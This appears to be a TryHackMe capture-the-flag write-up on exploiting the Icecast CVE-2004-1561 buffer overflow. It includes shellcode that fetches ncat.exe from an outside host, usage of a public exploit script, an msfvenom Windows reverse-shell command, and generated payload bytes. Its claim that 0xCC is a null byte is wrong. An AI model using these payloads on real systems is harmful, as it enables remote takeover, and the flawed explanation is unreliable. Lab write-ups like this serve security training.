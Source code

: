 ```
//this ncat spwans a shell on port 9999 

char shellcode[] = "xEB" 
"x03x59xEBx05xE8xF8xFFxF...
...
...
...
"x36x4Ax37x45x46x42x50x5A";
```

Here we are basically feeding a sequence of 31 empty headers (the  "arn") to Icecast to take up the first 31 locations in the buffer. 
Then we use the "xcc" which is a null byte to signify we'd like to execute what follows. 
This takes up the whole 32 bit buffer and any code we pass past this point will be taken as a part of a 'return' statement. 
Unfortunately we can see here that the shell is attempting to download a binary from <http://www.elitehaven.net/ncat.exe> which is a location that no longer exists. 
Therefore this shell code will not work. But it gives us a nice idea of what we can do from here.

### Icecast.py
After some more looking around for a working exploit, we find the following: <https://github.com/ivanitlearning/CVE-2004-1561>
We can see that the author ivanitlearning (who is a legend) rewrote both the original C version of the exploit as well as writing a Python version. 
In this case we'll be using the Python version which is called **Icecast.py**
The usage is fairly simple. ivanitlearning recommends the following:

```
Replace reverse shell shellcode in exploit, call it with argument for remote server and port.

root@Kali:~/TryHackme/Ice# ./icecast.py 192.168.92.133 8000

Done!
```

#### Generating shellcode with msfvenom

Conveniently, the author includes the msfvenom command we'll want to run in the icecast.py file:
```msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=[Your IP] LPORT=[Your Port] -f python -b '\x00\x0a\x0d'```

We use ```-a x86``` to ensure the payload is compatible with 32 bit architecture. ```--platform Windows``` ensures the shell is for a Windows device. 
```-p windows/shell_reverse_tcp``` is used to define the payload. ```LHOST``` should be the VPN IP for the TryHackMe machine while ```LPORT``` is the port that we will listen on with netcat. ```-f python``` ensures that the format for the shellcode is in Python. ```-b '\x00\x0a\x0d'``` excludes three characters from the shellcode. These characters are the null byte, line feed and carriage return respectively.

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.4.18.56 LPORT=420 -f python -b '\x00\x0a\x0d'  
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xb8\x24\x7b\xaa\x27\xd9\xca\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x83\xc3\x04\x31\x43\x0e\x03\x67\x75\x48"
buf += b"\xd2\x9b\x61\x0e\x1d\x63\x72\x6f\x97\x86\x43\xaf\xc3"
buf += b"\xc3\xf4\x1f\x87\x81\xf8\xd4\xc5\x31\x8a\x99\xc1\x36"
buf += b"\x3b\x17\x34\x79\xbc\x04\x04\x18\x3e\x57\x59\xfa\x7f"
buf += b"\x98\xac\xfb\xb8\xc5\x5d\xa9\x11\x81\xf0\x5d\x15\xdf"
buf += b"\xc8\xd6\x65\xf1\x48\x0b\x3d\xf0\x79\x9a\x35\xab\x59"
buf += b"\x1d\x99\xc7\xd3\x05\xfe\xe2\xaa\xbe\x34\x98\x2c\x16"
buf += b"\x05\x61\x82\x57\xa9\x90\xda\x90\x0e\x4b\xa9\xe8\x6c"
buf += b"\xf6\xaa\x2f\x0e\x2c\x3e\xab\xa8\xa7\x98\x17\x48\x6b"
buf += b"\x7e\xdc\x46\xc0\xf4\xba\x4a\xd7\xd9\xb1\x77\x5c\xdc"